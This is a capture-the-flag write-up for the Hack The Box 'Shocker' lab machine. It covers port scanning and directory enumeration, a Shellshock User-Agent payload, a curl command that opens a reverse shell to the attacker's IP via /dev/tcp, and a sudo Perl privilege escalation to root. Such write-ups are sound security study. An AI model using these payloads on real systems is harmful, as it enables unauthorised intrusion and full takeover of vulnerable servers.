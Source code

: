 # HTB_Shocker


This is my write-up for the Shocker machine on Hack The Box. I exploited a Shellshock vulnerability in a Bash CGI script to gain initial access, then escalated to root using a simple sudo misconfiguration.

---

## Recon

### Nmap
I started with a full port scan:

```bash
nmap -A -Pn -p- -T4 10.129.163.43
````

**Open ports:**

- `80/tcp` – Apache httpd 2.4.18
    
- `2222/tcp` – OpenSSH 7.2p2
    

The rest were filtered.

### Web Checks

- `whatweb` confirmed Apache 2.4.18
    
- Edited `/etc/hosts` to include:
    
    ```
    10.129.163.43 shocker.htb
    ```
    

---

## Web Enumeration

I ran both `dirsearch` and `gobuster` to find hidden paths.

```bash
gobuster dir -u http://shocker.htb -w /usr/share/wordlists/dirb/common.txt
```

That revealed `/cgi-bin/`.

Then I focused on that path with extensions:

```bash
gobuster dir -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,pl,cgi
```

Found:

```
/cgi-bin/user.sh
```

When I accessed it, it returned basic uptime output — a Bash CGI script.

---

## Exploitation – Shellshock (CVE-2014-6271)

I tested Shellshock with:

```bash
curl -H "User-Agent: () { :; }; echo; /bin/id" http://shocker.htb/cgi-bin/user.sh
```

It responded with the UID of `www-data`. So it was vulnerable.

### Reverse Shell

I set up my listener:

```bash
nc -lvnp 4444
```

Then launched the attack:

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.71/4444 0>&1'" http://shocker.htb/cgi-bin/user.sh
```

Got a shell as user `shelly`.

---

## Privilege Escalation

First, I checked for sudo rights:

```bash
sudo -l
```

Output:

```
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

That means I could run Perl as root with no password.

### Root Shell

I used:

```bash
sudo perl -e 'exec "/bin/bash";'
```

Confirmed with `whoami` — I was root.

---

## Flags

- `user.txt`: Found in `/home/shelly/
    
- `root.txt`: Found in `/root/root.txt

---

## Notes

This machine was a good refresher on CGI-Bash vulnerabilities and the Shellshock CVE. I avoided using Metasploit or automated exploits — everything was done manually to improve my process understanding.

---

**Written by:** Ibrahim Ismaeel  
[GitHub Profile](https://github.com/IbrahimAlbadrani)
